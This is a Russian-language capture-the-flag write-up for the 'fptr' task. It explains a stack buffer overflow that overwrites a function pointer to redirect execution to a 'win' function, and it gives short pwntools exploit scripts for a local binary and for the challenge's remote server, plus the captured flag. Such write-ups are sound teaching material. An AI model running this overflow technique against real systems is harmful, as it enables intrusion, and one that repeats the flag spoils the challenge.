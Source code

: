 
# Сайт: forkbomb.ru 
# Автор: @korniltsev (Anatoly Korniltsev)
# Название: fptr
# Сложность: Easy

Данное задание очень похоже на предыдущее ходом решения, однако, здесь мы затираем переменную, которая сожержит адрес функции. Посмотрим исходный код программы: <br />
![image](https://github.com/user-attachments/assets/316ac8ee-6871-4119-baf2-3c6d5c22d2bf)

Здесь все просто, считываем буфер, после того, как буфер считан, выполнится инструкция `call edx`, которая и вызовет функцию по указанному адресу: <br />
![image](https://github.com/user-attachments/assets/b1b2b4bb-6fd4-430f-9172-894eaec4c161)
Введем 4 буквы `a` и посмотрим на состояние стека: <br />
![image](https://github.com/user-attachments/assets/1667b659-cc59-4523-8f05-f55eef968786)
При таком вводе, адрес не переписывается, поэтому переполним буфер и запишем новый адрес. Посмотрим как адрес у функции `win`: <br />
![image](https://github.com/user-attachments/assets/76e938ff-5656-4813-8fbc-8ef5e46d9155)
Адрес у данной функции `0x401172`. Напишем скрипт и посмотрим получится ли получить локальный флаг: <br />

```py
from pwn import * 

p = process('./fptr')
win_addr = 0x401172
p.sendline(b"AAAAAAAA" + p64(win_addr))
p.interactive()
```
![image](https://github.com/user-attachments/assets/3c1fb947-80b9-4342-8877-bdba66f5c8e5) <br />
Получить локальный флаг удалось, теперь получим настоящий флаг: <br>
```py
from pwn import *

p = remote('109.233.56.90', 11601)
win_addr = 0x401172
p.sendline(b"AAAAAAAA" + p64(win_addr))
p.interactive()
```
![image](https://github.com/user-attachments/assets/8a9d397a-944e-4fab-ad4a-c0f2d95bfd25)

Ответ: `spbctf{9c4ef124c0624b2ddbe6eb58f8be045a}`



